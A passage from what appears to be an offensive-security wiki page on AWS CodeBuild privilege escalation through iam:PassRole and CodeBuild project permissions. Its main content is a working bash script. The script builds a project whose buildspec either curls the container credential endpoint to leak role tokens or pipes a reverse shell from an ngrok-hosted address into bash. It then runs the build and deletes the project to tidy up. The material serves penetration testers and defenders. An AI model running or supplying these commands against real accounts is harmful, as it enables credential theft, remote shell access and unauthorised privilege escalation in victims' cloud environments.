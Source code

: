```bash
aws codebuild start-build-batch --project <project-name> --buildspec-override file:///tmp/buildspec.yml
```
{% endcode %}
{% endtab %}
{% endtabs %}

**Note**: The difference between these two commands is that:

* `StartBuild` triggers a single build job using a specific `buildspec.yml`.
* `StartBuildBatch` allows you to start a batch of builds, with more complex configurations (like running multiple builds in parallel).

**Potential Impact:** Direct privesc to attached AWS Codebuild roles.

### `iam:PassRole`, `codebuild:CreateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

An attacker with the **`iam:PassRole`, `codebuild:CreateProject`, and `codebuild:StartBuild` or `codebuild:StartBuildBatch`** permissions would be able to **escalate privileges to any codebuild IAM role** by creating a running one.

{% tabs %}
{% tab title="Example1" %}
```bash
# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | bash"

JSON="{
    \"name\": \"codebuild-demo-project\",
    \"source\": {
        \"type\": \"NO_SOURCE\",
        \"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
    },
    \"artifacts\": {
        \"type\": \"NO_ARTIFACTS\"
    },
    \"environment\": {
        \"type\": \"LINUX_CONTAINER\",
        \"image\": \"aws/codebuild/standard:1.0\",
        \"computeType\": \"BUILD_GENERAL1_SMALL\"
    },
    \"serviceRole\": \"arn:aws:iam::947247140022:role/codebuild-CI-Build-service-role-2\"
}"


REV_PATH="/tmp/rev.json"

printf "$JSON" > $REV_PATH

# Create project
aws codebuild create-project --name codebuild-demo-project --cli-input-json file://$REV_PATH

# Build it
aws codebuild start-build --project-name codebuild-demo-project

# Wait 3-4 mins until it's executed
# Then you can access the logs in the console to find the AWS role token in the output

# Delete the project
aws codebuild delete-project --name codebuild-demo-project
```